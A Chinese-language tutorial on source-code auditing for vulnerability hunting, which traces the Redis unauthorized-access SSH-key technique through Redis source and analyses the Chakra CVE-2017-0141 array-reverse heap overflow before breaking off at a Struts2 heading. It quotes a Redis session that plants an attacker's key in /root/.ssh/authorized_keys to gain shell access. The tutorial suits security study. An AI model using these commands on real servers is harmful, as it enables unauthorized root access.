








读代码要带有目的去读,是要挖漏洞还是想要了解这个程序到在底干了些什么

要理解整体的时候,千万不要在某个细节里钻牛角尖

要一边理解细节一边挖洞的时候,记得要联想到所有可能的情况


## 必备工具

  Source Insight ,redis 源码,VS2017 ,Chakra 源码 ,Struts2 源码


## 从一个利用思路到源码层上的理解

  本节从一个redis 提权思路开始一步步分析,原文地址:https://www.huangdc.com/443 .这篇文章主要说的是,找到了未授权的redis 然后使用`config` 命令进行ssh key 的替换,使得攻击者可以使用ssh 免密码登陆的方式 直接getshell .我们看看文章里的关键部分

```bash

    [root@vm200-78 ~]# cat mypubkey.txt |redis-cli -h 192.168.203.224 -p 4700 -x set mypubkey
    OK
    [root@vm200-78 ~]# redis-cli -h 192.168.203.224 -p 4700
    redis 192.168.203.224:4700> config set dir /root/.ssh/
    OK
    redis 192.168.203.224:4700> config set dbfilename "authorized_keys"
    OK
    redis 192.168.203.224:4700> save
    OK
    redis 192.168.203.224:4700>

```

  把mypubkey.txt 的内容写入到了mypubkey 之后,然后使用`config set dir` 改变数据保存目录,再使用`config set dbfilename "authorized_keys"` 改变数据保存文件名,接下来使用`save` 进行数据保存,把ssh key 保存到/root/.ssh 中,下载好redis 的源码,我们来探索一下

  这个命令叫config ,那么我们到Github 上来搜索有config 的地方




  有config 字符串的地方太多了,我们换一个来搜索,找save 命令





  搜索save 的结果不是很多,在第二页就可以找到所有命令的声名了


  接下来我们来看看`src/server.c` 的代码,搜索saveCommand 


  现在可以进一步确定这个地方是命令声名的地方,`save` 是命令的字符串,`saveCommand` 是命令的入口点,那么我们搜索`config`


  现在能够定位到`config` 命令的入口函数了,继续搜索configCommand


  定位到configCommand 函数在`src/config.c` ,进去源码文件继续查找



  找到configCommand ,源码如下:

```c

    void configCommand(client *c) {
        /* Only allow CONFIG GET while loading. */
        if (server.loading && strcasecmp(c->argv[1]->ptr,"get")) {
            addReplyError(c,"Only CONFIG GET is allowed during loading");
            return;
        }

        if (c->argc == 2 && !strcasecmp(c->argv[1]->ptr,"help")) {
            const char *help[] = {
                "get <pattern> -- Return parameters matching the glob-like <pattern> and their values.",
                "set <parameter> <value> -- Set parameter to value.",
                "resetstat -- Reset statistics reported by INFO.",
                "rewrite -- Rewrite the configuration file.",
                NULL
            };
            addReplyHelp(c, help);
        } else if (!strcasecmp(c->argv[1]->ptr,"set") && c->argc == 4) {  //  注意这里,config set 命令
            configSetCommand(c);
        } else if (!strcasecmp(c->argv[1]->ptr,"get") && c->argc == 3) {
            configGetCommand(c);
        } else if (!strcasecmp(c->argv[1]->ptr,"resetstat") && c->argc == 2) {
            resetServerStats();
            resetCommandTableStats();
            addReply(c,shared.ok);
        } else if (!strcasecmp(c->argv[1]->ptr,"rewrite") && c->argc == 2) {
            if (server.configfile == NULL) {
                addReplyError(c,"The server is running without a config file");
                return;
            }
            if (rewriteConfig(server.configfile) == -1) {
                serverLog(LL_WARNING,"CONFIG REWRITE failed: %s", strerror(errno));
                addReplyErrorFormat(c,"Rewriting config file: %s", strerror(errno));
            } else {
                serverLog(LL_WARNING,"CONFIG REWRITE executed with success.");
                addReply(c,shared.ok);
            }
        } else {
             addReplyErrorFormat(c, "Unknown subcommand or wrong number of arguments for '%s'. Try CONFIG HELP",
                (char*)c->argv[1]->ptr);
            return;
        }
    }

```

  继续对`configSetCommand()` 函数进行跟踪,在`src/config.c:837` 行代码,由于代码量比较多,在此挑选一些比较重点的地方来说

```c

    void configSetCommand(client *c) {
        robj *o;
        long long ll;
        int err;
        serverAssertWithInfo(c,c->argv[2],sdsEncodedObject(c->argv[2]));
        serverAssertWithInfo(c,c->argv[3],sdsEncodedObject(c->argv[3]));
        o = c->argv[3];

        if (0) { /* this starts the config_set macros else-if chain. */

        /* Special fields that can't be handled with general macros. */
        config_set_special_field("dbfilename") {  //  命令config set dbfilename
            if (!pathIsBaseName(o->ptr)) {  //  
                addReplyError(c, "dbfilename can't be a path, just a filename");
                return;
            }
            zfree(server.rdb_filename);
            server.rdb_filename = zstrdup(o->ptr);
            
        //  ...
            
        } config_set_special_field("dir") {  //  命令config set dir
            if (chdir((char*)o->ptr) == -1) {
                addReplyErrorFormat(c,"Changing directory: %s", strerror(errno));
                return;
            }
        }
        
        //  ...
    }

```

  `config set dir` 这个命令很好理解,就是改变当前运行目录路径.`config set dbfilename` 则是设置redis 服务器的rdb_filename 字段.明白了`config set` 的工作原理之后,回来再看看`save` 命令.使用上面的方法找到`saveCommand()` 函数,在`src/rdb.c:2073` 行.

```c

    void saveCommand(client *c) {
        if (server.rdb_child_pid != -1) {
            addReplyError(c,"Background save already in progress");
            return;
        }
        rdbSaveInfo rsi, *rsiptr;
        rsiptr = rdbPopulateSaveInfo(&rsi);
        if (rdbSave(server.rdb_filename,rsiptr) == C_OK) {
            addReply(c,shared.ok);
        } else {
            addReply(c,shared.err);
        }
    }

```

  我们再来找找`rdbSave()` 函数.`CTRL + F` 搜素一下有没有在当前的代码文件里.
  


  同一个文件上有很多rdbSave 的关键字,我们要找的是函数声明,那么加上一个`(` 符号,搜素字符串`rdbSave(`
  


  这样搜素出来的结果就少很多,往上找一找,就能够直接定位到`rdbSave()` 函数,在`src/rdb.c:1042` 行

```c

    /* Save the DB on disk. Return C_ERR on error, C_OK on success. */
    int rdbSave(char *filename, rdbSaveInfo *rsi) {
        char tmpfile[256];
        char cwd[MAXPATHLEN]; /* Current working dir path for error messages. */
        FILE *fp;
        rio rdb;
        int error = 0;

        snprintf(tmpfile,256,"temp-%d.rdb", (int) getpid());  //  生成一个临时文件名
        fp = fopen(tmpfile,"w");  //  创建文件
        if (!fp) {
            char *cwdp = getcwd(cwd,MAXPATHLEN);
            serverLog(LL_WARNING,
                "Failed opening the RDB file %s (in server root dir %s) "
                "for saving: %s",
                filename,
                cwdp ? cwdp : "unknown",
                strerror(errno));
            return C_ERR;
        }

        rioInitWithFile(&rdb,fp);
        if (rdbSaveRio(&rdb,&error,RDB_SAVE_NONE,rsi) == C_ERR) {  //  保存数据到文件
            errno = error;
            goto werr;
        }

        /* Make sure data will not remain on the OS's output buffers */
        if (fflush(fp) == EOF) goto werr;
        if (fsync(fileno(fp)) == -1) goto werr;
        if (fclose(fp) == EOF) goto werr;  //  关闭文件

        /* Use RENAME to make sure the DB file is changed atomically only
         * if the generate DB file is ok. */
        if (rename(tmpfile,filename) == -1) {  //  重命名文件
            char *cwdp = getcwd(cwd,MAXPATHLEN);
            serverLog(LL_WARNING,
                "Error moving temp DB file %s on the final "
                "destination %s (in server root dir %s): %s",
                tmpfile,
                filename,
                cwdp ? cwdp : "unknown",
                strerror(errno));
            unlink(tmpfile);
            return C_ERR;
        }

        serverLog(LL_NOTICE,"DB saved on disk");
        server.dirty = 0;
        server.lastsave = time(NULL);
        server.lastbgsave_status = C_OK;
        return C_OK;

    werr:
        serverLog(LL_WARNING,"Write error saving DB on disk: %s", strerror(errno));
        fclose(fp);
        unlink(tmpfile);
        return C_ERR;
    }

```

  看完了上面的代码之后,我们知道:fopen 会在当前目录下生成一个临时文件来保存数据,那么通过`config set dir` 改变目录到`/root/.ssh/` ,`fopen()` 函数就会在`/root/.ssh/` 目录下生成文件.我们来看看`rdbSave()` 函数重命名文件部分的代码
  
```c

    if (rename(tmpfile,filename) == -1) {  //  重命名文件
        char *cwdp = getcwd(cwd,MAXPATHLEN);
        
        // ...
        
        unlink(tmpfile);
        return C_ERR;
    }

```

  filename 是rdbSave 函数的参数
  
```c

    /* Save the DB on disk. Return C_ERR on error, C_OK on success. */
    int rdbSave(char *filename, rdbSaveInfo *rsi) {

```

  然后回去看`saveCommand()` 的源码,filename 其实是server.rdb_filename

```c

    if (rdbSave(server.rdb_filename,rsiptr) == C_OK) {
    
```


## 从一个漏洞Commit 到理解这一类的漏洞挖掘方式

  本节从一个Chakra 的Bug Commit : [CVE-2017-0141] ReverseHelper Heap Overflow ,Link https://github.com/Microsoft/ChakraCore/commit/db504eba489528434dfb56257b0f202209741fe9 .和读者们分享一下如何从阅读源码的层面上对JavaScript 的OOB 漏洞挖掘的一些思路.



  看到diff 知道代码修复的位置,现在我们到Source Insight 里面找找.找到这个按钮


  现在在搜素里面找ReverseHelper ,Source Insight 能找到这个函数


  双击这里之后,就跳到了ReverseHelper ,我们在看看函数列表这里



  是不是看到了很多其他的函数,这些函数就是Chakra 的JavaScript 内部对象的实现函数.要触发ReverseHelper 函数的调用,可以构造如下的代码.
  
```javascript

    data = Array();
    
    data.reverse();

```
  
  注意,**Chakra 是在底层上实现内部对象函数的,V8 是在Native JavaScript 上实现内部对象函数的**.
  
  让我们回来继续分析漏洞成因.由于代码一直有变化,patch 了的代码和原来Commit 的位置已经不同了,不过没有关系,能定位到就好.


  pArr 到底是什么东西呢,我们来查看它的定义


  `ReverseHelper()` 的声明如下:
  
```c++

    Var JavascriptArray::ReverseHelper(JavascriptArray* pArr, Js::TypedArrayBase* typedArrayBase, RecyclableObject* obj, T length, ScriptContext* scriptContext)

```

  现在我们找到了pArr 和length 的来源了.来看看`ReverseHelper()` 被哪些地方引用到


```

    JavascriptArray.cpp (lib\runtime\library):            JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetSmallIndex(), scriptContext));
    JavascriptArray.cpp (lib\runtime\library):        JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetBigIndex(), scriptContext));
    JavascriptArray.cpp (lib\runtime\library):    Var JavascriptArray::ReverseHelper(JavascriptArray* pArr, Js::TypedArrayBase* typedArrayBase, RecyclableObject* obj, T length, ScriptContext* scriptContext)
    JavascriptArray.h (lib\runtime\library):        static Var ReverseHelper(JavascriptArray* pArr, Js::TypedArrayBase* typedArrayBase, RecyclableObject* obj, T length, ScriptContext* scriptContext);
    TypedArray.cpp (lib\runtime\library):        return JavascriptArray::ReverseHelper(nullptr, typedArrayBase, typedArrayBase, typedArrayBase->GetLength(), scriptContext);

```

  我们搜素当前的源码文件的那两个引用.最后定位到`JavascriptArray::EntryReverse()`

```c++

    Var JavascriptArray::EntryReverse(RecyclableObject* function, CallInfo callInfo, ...)  //  在Chakra 中,内部对象处理函数都长这样
    /*
      注意:Chakra 的内部函数调用原理是这样的:callInfo 传递给函数调用的参数列表.里面包含了当前对象和函数参数对象列表,callInfo[0] 是当前对象,callInfo[1] 往后就是函数参数列表
    */
    {
        PROBE_STACK(function->GetScriptContext(), Js::Constants::MinStackDefault);

        ARGUMENTS(args, callInfo);  //  格式化callInfo 成args
        ScriptContext* scriptContext = function->GetScriptContext();
        JS_REENTRANCY_LOCK(jsReentLock, scriptContext->GetThreadContext());

        Assert(!(callInfo.Flags & CallFlags_New));

        if (args.Info.Count == 0)  //  无法获取当前的Array 对象
        {
            JavascriptError::ThrowTypeError(scriptContext, JSERR_This_NullOrUndefined, _u("Array.prototype.reverse"));
        }

        BigIndex length = 0u;  //  注意,这个就是传递到ReverseHelper() 的length
        JavascriptArray* pArr = nullptr;
        RecyclableObject* obj = nullptr;

        JS_REENTRANT(jsReentLock, TryGetArrayAndLength(args[0], scriptContext, _u("Array.prototype.reverse"), &pArr, &obj, &length));  //  从当前的Array 对象中获取信息,其中包含了数组长度,Array 指针

        if (length.IsSmallIndex())
        {
            JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetSmallIndex(), scriptContext));  //  调用ReverseHelper
        }
        Assert(pArr == nullptr || length.IsUint32Max()); // if pArr is not null lets make sure length is safe to cast, which will only happen if length is a uint32max

        JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetBigIndex(), scriptContext));  //  调用ReverseHelper
    }

```

  再来看看`TryGetArrayAndLength()` 做了些什么

```c++

    template<typename T>
    void JavascriptArray::TryGetArrayAndLength(Var arg,
        ScriptContext *scriptContext,
        PCWSTR methodName,
        __out JavascriptArray** array,
        __out RecyclableObject** obj,
        __out T * length)
    {
        Assert(array != nullptr);
        Assert(obj != nullptr);
        Assert(length != nullptr);

        *array = JavascriptOperators::TryFromVar<JavascriptArray>(arg);
        if (*array && !(*array)->IsCrossSiteObject())  //  判断Array 是否为跨站对象
        {
            #if ENABLE_COPYONACCESS_ARRAY
                JavascriptLibrary::CheckAndConvertCopyOnAccessNativeIntArray<Var>(*array);
            #endif
            
            *obj = *array;
            *length = (*array)->length;  //  返回的长度为真实的数组长度
        }
        else
        {
            if (!JavascriptConversion::ToObject(arg, scriptContext, obj))
            {
                JavascriptError::ThrowTypeError(scriptContext, JSERR_This_NullOrUndefined, methodName);
            }
            *length = OP_GetLength(*obj, scriptContext);  //  返回的长度为JavaScript 属性length 设置的值
            *array = nullptr;
        }
    }

```

  `IsCrossSiteObject()` 到底做了什么工作呢?读者可以自行搜素代码来阅读.


  相信读者开始有一个疑问,`*length = (*array)->length;` 和`*length = OP_GetLength(*obj, scriptContext);` 到底有什么不同呢?**理解它们两个差异,就可以理解JavaScript 关于数组越界的漏洞的成因**.让我们再深入去了解它们背后的故事.

```c++

    class ArrayObject : public DynamicObject  //  lib/runtime/types/ArrayObject.h:18
    {
    protected:
        Field(uint32) length;


    class JavascriptArray : public ArrayObject  //  lib/runtime/library/JavascriptArray.h:94
    {

```

  JavascriptArray 是继承ArrayObject 的,我们来看看JavascriptArray 的构造函数

```c++

    JavascriptArray::JavascriptArray(uint32 length, DynamicType * type)
        : ArrayObject(type, false, length)
    {
        Assert(JavascriptArray::Is(type->GetTypeId()));
        Assert(EmptySegment->length == 0 && EmptySegment->size == 0 && EmptySegment->next == NULL);
        InitArrayFlags(DynamicObjectFlags::InitialArrayValue);
        SetHeadAndLastUsedSegment(const_cast<SparseArraySegmentBase *>(EmptySegment));
    }

```

  由此可知,JavascriptArray 初始化长度length 最后传递给ArrayObject 的构造函数.

```c++

    ArrayObject(DynamicType * type, bool initSlots = true, uint32 length = 0)
        : DynamicObject(type, initSlots), length(length)
    {
    
```

  弄明白了`JavascriptArray->length` 之后,再来理解`OP_GetLength` .前面说过,Op_GetLength 是JavaScript 属性length 设置的值.现在我们来分析一下代码

```c++

    uint64 JavascriptArray::OP_GetLength(Var obj, ScriptContext *scriptContext)  //  lib/runtime/library/JavascriptArray.cpp:3025
    {
        if (scriptContext->GetConfig()->IsES6ToLengthEnabled())
        {
            // Casting to uint64 is okay as ToLength will always be >= 0.
            return (uint64)JavascriptConversion::ToLength(JavascriptOperators::OP_GetLength(obj, scriptContext), scriptContext);
        }
        else
        {
            return (uint64)JavascriptConversion::ToUInt32(JavascriptOperators::OP_GetLength(obj, scriptContext), scriptContext);
        }
    }

```

  这段代码里面有两个OP_GetLength ,分别是`JavascriptArray::OP_GetLength` 和`JavascriptOperators::OP_GetLength` ,他们需要的函数参数都是`Var obj` 和`ScriptContext *scriptContext` ,参数obj 的意思是当前对象,参数scriptContext 的意思是JavaScript 执行环境上下文.再去阅读`JavascriptOperators::OP_GetLength()`

```c++

    Var JavascriptOperators::OP_GetLength(Var instance, ScriptContext* scriptContext)
    {
        return JavascriptOperators::OP_GetProperty(instance, PropertyIds::length, scriptContext);
    }

```

  看到这里读者们应该理解了,OP_GetLength 就是读取对象属性length 的值,再看看`JavascriptOperators::OP_GetProperty()` 的代码
  
```c++

    Var JavascriptOperators::OP_GetProperty(Var instance, PropertyId propertyId, ScriptContext* scriptContext)
    {
        RecyclableObject* object = nullptr;
        if (FALSE == JavascriptOperators::GetPropertyObject(instance, scriptContext, &object))  //  找不到对象的属性
        {
            if (scriptContext->GetThreadContext()->RecordImplicitException())
            {
                JavascriptError::ThrowTypeError(scriptContext, JSERR_Property_CannotGet_NullOrUndefined, scriptContext->GetPropertyName(propertyId)->GetBuffer());
            }
            else
            {
                return scriptContext->GetLibrary()->GetUndefined();  //  返回undefined 的值
            }
        }

        Var result = JavascriptOperators::GetPropertyNoCache(instance, object, propertyId, scriptContext);  //  拿到对象属性的值
        AssertMsg(result != nullptr, "result null in OP_GetProperty");
        return result;
    }

```

  聪明的你应该开始举一反三了,右键JavascriptOperators::OP_GetLength 搜素引用,开开心心挖漏洞.下面截个搜素引用结果的图




## 从一个PoC 到理解如何这个类漏洞的原理

  前面说了很多二进制(主要是C/C++ )的例子,现在来一个JAVA 库Struts2 的分析.以S2-045 为例子,深入OGNL 


